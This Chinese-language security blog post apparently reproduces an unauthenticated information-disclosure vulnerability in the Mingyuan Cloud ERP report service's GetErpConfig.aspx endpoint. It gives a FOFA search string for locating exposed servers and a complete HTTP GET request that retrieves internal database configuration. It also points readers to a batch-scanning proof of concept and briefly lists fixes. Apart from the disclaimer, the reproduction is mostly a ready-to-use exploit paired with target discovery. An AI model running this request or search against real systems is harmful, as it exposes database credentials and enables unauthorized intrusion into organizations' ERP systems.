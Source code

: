 #  【漏洞复现】明源云ERP报表 GetErpConfig.aspx存在信息泄露漏洞   
原创 清风  白帽攻防   2024-11-25 01:14  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
明源云ERP系统是一款云端部署的企业管理解决方案，具备高效、灵活和可定制的特点。通过支持自定义表单、报表、流程等功能，企业可根据需求进行个性化设置，提升管理效率。系统还提供移动端支持，员工可随时随地完成业务操作与数据分析，实现高效协同。此外，其精确的财务数据管理和强大的报表服务，通过数据采集、分析、可视化等功能，帮助企业全面掌控数据，满足多样化需求，显著提升运营效率。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0fqqRV0d4YwbpUIeQOqXeQYZlCB9GgFNJVA9Btdy0XX5opTC85NRGhHniarpNmibSAEWibBMWKl6fIdw/640?wx_fmt=png&from=appmsg "")  
漏洞描述  
  
明源云ERP报表服务在 GetErpConfig.aspx 接口处存在未授权信息泄露漏洞，远程攻击者无需身份验证即可利用该漏洞获取内部数据库的敏感配置信息，严重威胁系统安全性。  
fofa语法```
body="报表服务已正常运行"
```  
漏洞复现```
GET /service/Mysoft.Report.Web.Service.Base/GetErpConfig.aspx?erpKey=erp60 HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0fqqRV0d4YwbpUIeQOqXeQYGyDS1ZlXXNA3cDicAQYE9ibibSO8USpd6uhv7S8OaRvBxIv5xC45OvLXQ/640?wx_fmt=png&from=appmsg "")  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0fqqRV0d4YwbpUIeQOqXeQYc8HzsKuvgAXF3rsnmsMbIpUNTy88cxzVBEiasCEtwnA0hbglU3pWWWA/640?wx_fmt=png&from=appmsg "")  
修复建议  
  
  
  
  
1、关闭互联网暴露面  
  
2、设置接口访问权限  
  
3、升级至安全版本  
  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
